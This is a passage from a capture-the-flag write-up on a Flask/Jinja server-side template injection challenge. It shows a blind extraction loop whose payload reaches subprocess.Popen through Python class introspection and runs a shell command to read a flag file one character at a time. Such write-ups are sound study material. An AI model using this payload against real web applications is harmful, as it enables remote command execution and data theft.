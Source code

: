![Untitled](images/Untitled%2022.png)

There’s the flag! But recall that we are unable to use `{{INJECTION}}` to print out the value. So, we have to do it with a blind binary search method and using the `if` templating clause. Example…

```python
# So if it's true -> `kair0s3` appears, else nothing.
{% if 'S' == flag[0] %} kair0s3 {% endif %}
```

Also, to avoid using invalid characters when doing the binary search e.g. `'_' == XXXXX`, we make use of `int.to_bytes` functionality in python.

```python
# Example we want to check if value is _
# In ascii -> this is 0x5f or 95
# So, to convert it inside ascii character we do as the following
95.to_bytes(1, byteorder='little').decode()
# OR
0x5f.to_bytes(1, byteorder='little').decode()
# Both will give '_'
```

Thus, with everything we have gathered for this challenge, we can craft the final snippet of payload for retrieving the flag.

```python
...
for i in range(9 + len(flag), 60):
    for dec in range(33, 127):
        payload = "{% if DEC == get_flashed_messages.__class__.__mro__[1].__subclasses__()[394]('nl flag.txt',shell=True,stdout=-1).communicate()[0].decode()[IDX] %} kair0s3 {% endif %}"
        payload = payload.replace('DEC', f"{dec}.to_bytes(1, byteorder='little').decode()")
        payload = payload.replace('IDX', str(i))
        print("Checking if flag is", flag + chr(dec), i)
...
```

*Note that for the rationale of using of index `9` can be found Side-notes. It has to mainly do with wanting to save time and get only from the flag offset.*

Once, we run the binary search, it will return the following

![Untitled](images/Untitled%2023.png)
